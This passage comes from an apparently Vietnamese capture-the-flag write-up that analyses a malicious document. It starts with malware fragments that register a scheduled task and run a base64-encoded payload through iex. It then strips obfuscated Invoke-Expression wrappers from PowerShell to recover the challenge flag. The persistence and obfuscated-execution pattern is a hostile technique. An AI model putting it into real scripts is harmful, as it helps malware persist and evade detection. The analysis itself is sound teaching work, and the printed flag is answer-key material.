    Register-ScheduledTask "$($regp)$($regn)" -InputObject $d;
}


iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($payloadBase64)));
```

Chúng ta có thể thấy chúng là đoạn lệnh powershell được mã hóa.

```powershell
. ( $PshomE[4]+$pshoMe[30]+'x') ( [strinG]::join('' , ([REGeX]::MaTCHES( ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(eCALPER.)'$','wqi'(eCALPER.)';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'(" ,'.' ,'R'+'iGHTtOl'+'eft' ) | FoREaCH-OBJecT {$_.VALUE} ))  )

```

* Nhìn đoạn lệnh này chúng ta có thể nhìn ra `CHTB{`
* Chạy thử trên Powershell
* Và `( $PshomE[4]+$pshoMe[30]+'x')` là một đoạn ngắn của Invoke-Expression

<figure><figcaption></figcaption></figure>

Loại bỏ `( $PshomE[4]+$pshoMe[30`

<figure><figcaption></figcaption></figure>

```powershell
('iqwreg'+'p ='+' jXtCH'+'T'+'B{'+'maldocs_arej'+'Xt;').REPLACe('iqw','$').REPLACe('jXt',[sTRInG][chAR]34) |&( $sheLLiD[1]+$sHeLlID[13]+'x')

```

* Chúng ta có tiếp một obfuscated IEX khác `( $sheLLiD[1]+$sHeLlID[13]+'x')`
* Loại bỏ nó ta có được một nửa flag

<figure><figcaption></figcaption></figure>


CHTB{maldocs\_are


```powershell
SEt ("G8"+"h")  (  " ) )63]Rahc[,'raZ'EcalPeR-  43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX 

```

<figure><figcaption></figcaption></figure>


_the\_new\_meta}_


